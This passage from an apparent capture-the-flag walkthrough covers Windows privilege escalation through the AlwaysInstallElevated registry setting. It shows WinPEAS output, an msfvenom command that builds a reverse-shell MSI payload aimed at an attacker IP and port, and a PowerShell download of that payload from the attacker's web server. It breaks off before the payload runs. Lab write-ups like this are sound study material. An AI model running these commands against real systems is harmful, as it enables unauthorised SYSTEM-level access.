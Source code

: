 
Being able to create directories at the `C:\` root is interesting.

    
    
      [+] Drives Information
       [?] Remember that you should search more info inside the other drives
        C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 3 GB)(Permissions: Authenticated Users [AppendData/CreateDirectories])  
    

That’s not exploitable on it’s own, but enables others.

`AlwaysInstallElevated` is set to 1:

    
    
      [+] Checking AlwaysInstallElevated
       [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
        AlwaysInstallElevated set to 1 in HKLM!
        AlwaysInstallElevated set to 1 in HKCU!  
    

This is bad, and is almost certainly exploitable.

There are some unquoted service paths with spaces in them. If I can restart
those services, I could potentially hijack them.

### AlwaysInstallElevated

These registry keys tell windows that a user of any privilege can install
`.msi` files are NT AUTHORITY\SYSTEM. So all I need to do is create a
malicious `.msi` file, and run it.

I’ll use `msfvenon` to create the MSI installer. I did show this process
manually for [Ethereal](/2019/03/09/htb-ethereal.html#create-msi), but it’s a
painful process, and `msfvenom` will work here. I’ll use a reverse shell
payload that I can catch with `nc`:

    
    
    oxdf@parrot$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of msi file: 159744 bytes
    Saved as: rev.msi
    

I’ll upload it just like I did with WinPEAS:

    
    
    C:\ProgramData>powershell wget http://10.10.14.6/rev.msi -outfile rev.msi
    

This requests the file from my Python webserver (now running out of my love
directory) and fetches the MSI.

Now I just need to run it with `msiexec`:

    